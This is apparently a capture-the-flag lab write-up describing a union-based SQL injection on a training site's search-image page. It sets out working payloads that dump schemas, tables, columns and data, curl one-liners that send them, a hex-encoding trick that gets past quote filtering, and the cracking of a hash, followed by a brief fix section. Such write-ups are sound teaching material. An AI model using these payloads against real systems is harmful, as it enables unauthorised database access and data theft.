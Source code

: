 # Union Based SQL Injection in search image page

## 📖 Vulnerability Explanation
The server uses the URL parameter _id_ to query the database. The input is provided by the user and not sanitized, leading to a potential abuse where SQL statements can be injected to retrieve information (SQLi). 

## ⚙️ Exploitation Process
The methodology we used in this exercise first focuses on gaining situational awareness of the database, and then proceeds to retrieve information.

We decided to present two different methods: one using the input box on the webpage, and the other using ```curl``` in the terminal.

---

**1. Dump databases**

```
0 UNION SELECT 1,schema_name FROM information_schema.schemata; -- -
```

```
curl -s 'http://BornToSec.com/index.php?page=searchimg&id=0+UNION+SELECT+1%2Cschema_name+FROM+information_schema.schemata%3B+--+-&Submit=Submit#' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.*<br\/>Title: //' | sed 's/<br\/>.*//'
```

---

**2. Dump tables**

```
0 UNION SELECT table_name,table_schema FROM information_schema.tables; -- -
```

```
curl -s 'http://BornToSec.com/index.php?page=searchimg&id=0+UNION+SELECT+table_name%2Ctable_schema+FROM+information_schema.tables%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Title: /\n[+] Database   : /' | sed 's/Url : /[-] Table name : /' | grep -v table
```

---

**3. Dump columns of table _list\_images_**

We use the hexadecimal representation of the string _"list_images"_ to bypass the blocked characters, which are single and double quotes.

```
echo -n 'list_images' | xxd -p
```

```
0 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name=0x6c6973745f696d61676573; -- -
```

```
curl -s 'http://BornToSec.com/index.php?page=searchimg&id=0+UNION+SELECT+1%2Ccolumn_name+FROM+information_schema.columns+WHERE+table_name%3D0x6c6973745f696d61676573%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Title: //' | grep -v 'Url : '
```

---

**4. Read columns _title_ and _comment_**

```
0 UNION SELECT title,comment FROM Member_images.list_images; -- -
```

```
curl -s 'http://BornToSec.com/index.php?page=searchimg&id=0+UNION+SELECT+title%2Ccomment+FROM+Member_images.list_images%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Title: /\n[+] Title   : /' | sed 's/Url : /[-] Comment : /' | grep -v table
```

---

**5. Crack the hash and craft the flag using the steps provided**

To craft the flag, we must follow the instructions found on the last step: _```If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46```_

![](./CrackStation.png)

```
echo -n 'albatroz' | sha256sum
```

## 🧰 Additional Resources Used
We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
To protect against SQLi, it is crutial to always sanitize the users' input before querying the database. It is also possible to use an ORM or library to query the database and avoid manual sanitization.

## ☝️🤓 Advanced explanation
While these SQLi allowed us to read most of the data present in the database, we couldn't read everything. After trying to read the database _Member\_Brute\_Force_, we got an error as the account used by the app on these pages did not have access to it.